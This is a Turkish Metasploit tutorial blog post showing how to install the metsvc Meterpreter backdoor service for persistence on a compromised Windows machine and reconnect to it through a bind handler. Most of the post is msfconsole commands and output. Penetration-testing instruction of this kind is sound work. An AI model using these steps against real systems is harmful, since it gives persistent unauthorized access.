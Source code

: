 ```yaml
---
draft: false

title:  'MSF Meterpreter Backdoor'
date: '2017-06-15T13:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da\_metsvc\_servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz.\_metsvc\_hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz." 
 
url:  /tr/msf-meterpreter-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```

## Meterpreter metsvc

Hedef sisteme giriş yaptıktan sonra, kalıcılık sağlamanın bir yolu da `metsvc` servisini kullanmaktır. Bu servis sayesinde istediğiniz zaman tekrar Meterpreter oturumu açabilirsiniz. <a href="http://www.phreedom.org/software/metsvc/">metsvc</a> hakkında detaylı bilgiyi bağlantıyı kullanarak inceleyebilirsiniz.

metsvc hakkında bilmeniz gereken önemli bir noktayı vurgulayalım. **Bu servisi yerleştirdiğiniz bilgisayarın ilgili portunu bulan herkes bu arka kapıyı kullanabilir.** Pentest işlemleri esnasında kullandıktan sonra iptal etmelisiniz yoksa sistemi, art niyetli kişilere açık duruma getirmiş olursunuz. Bu da sistem sahiplerinin hiç hoşuna gitmeyebilir.

Öncelikle sistemde, bulduğunuz bir açıklıkla ilgili modülü kullanarak meterpreter oturumu açalım.
```bash
msf exploit(3proxy) > exploit

> Started reverse handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.104:1983)
```

`ps` komutuyla `Explorer.exe` programının PID numarasını bulalım ve `migrate` komutuyla bu PID numaralı programa geçiş yapalım.
```bash
meterpreter > ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    132   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    176   svchost.exe          C:\WINDOWS\system32\svchost.exe
    440   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    632   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    796   smss.exe             \SystemRoot\System32\smss.exe
    836   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    844   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    884   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    908   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    952   services.exe         C:\WINDOWS\system32\services.exe
    964   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1120  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1136  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1236  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1560  alg.exe              C:\WINDOWS\System32\alg.exe
    1568  WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    1596  jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    1656  msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    1748  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1928  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2028  snmp.exe             C:\WINDOWS\System32\snmp.exe
    2840  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    3000  mmc.exe              C:\WINDOWS\system32\mmc.exe

meterpreter > migrate 632
> Migrating to 632...
> Migration completed successfully.
```

`metsvc` modülünü kullanmadan önce yardımı görüntüleyelim ve bize hangi olanakları sağladığını görelim.
```bash
meterpreter > run metsvc -h
>
OPTIONS:

    -A        Automatically start a matching multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter >
```

`metsvc`, normalde bize geri bağlantı da sağlayan bir programdır ancak biz zaten Meterpreter oturumu açtığımız için geri bağlantıya şimdilik ihtiyacımız yok. Sadece programı çalıştıralım.
```bash
meterpreter > run metsvc
> Creating a meterpreter service on port 31337
> Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
>  **>>** Uploading metsrv.dll...
>  **>>** Uploading metsvc-server.exe...
>  **>>** Uploading metsvc.exe...
> Starting the service...
>      ***** Installing service metsvc
 ***** Starting service
Service metsvc successfully installed.

meterpreter >
```

`metsvc` başladı ve artık bağlanmak için bekliyor. Şimdi bu servisle nasıl haberleşeceğimizi görelim.

Hedef sistemde dinleme durumundaki `metsvc` ile haberleşmek için `windows/metsvc_bind_tcp` payload modülünü kullanacağız. Modülü, aşağıdaki örnekte olduğu gibi aktif hale getirelim ve gerekli PORT ayarlarını yapalım.
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD => windows/metsvc_bind_tcp
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/metsvc_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > exploit

> Starting the payload handler...
> Started bind handler
> Meterpreter session 2 opened (192.168.1.101:60840 -> 192.168.1.104:31337)
```

Gördüğünüz gibi `session 2` otomatik olarak açıldı. Şimdi, `metsvc` servisinin hedef bilgisayarda hangi PID numarasıyla çalıştığına bakalım.
```bash
meterpreter > ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

Çıktıdan görülebileceği gibi, `metsvc` programı, 564 PID numarasıyla çalışmaktadır. Artık istediğiniz zaman, hedef bilgisayarda dinleme yapan programa, `windows/metsvc_bind_tcp` payload modülünü kullanarak bağlanabiliriz.

Tekrar hatırlatmak gerekirse, güvenlik testi işlemleriniz bittiğinde `metsvc` programını sistemden silmelisiniz.
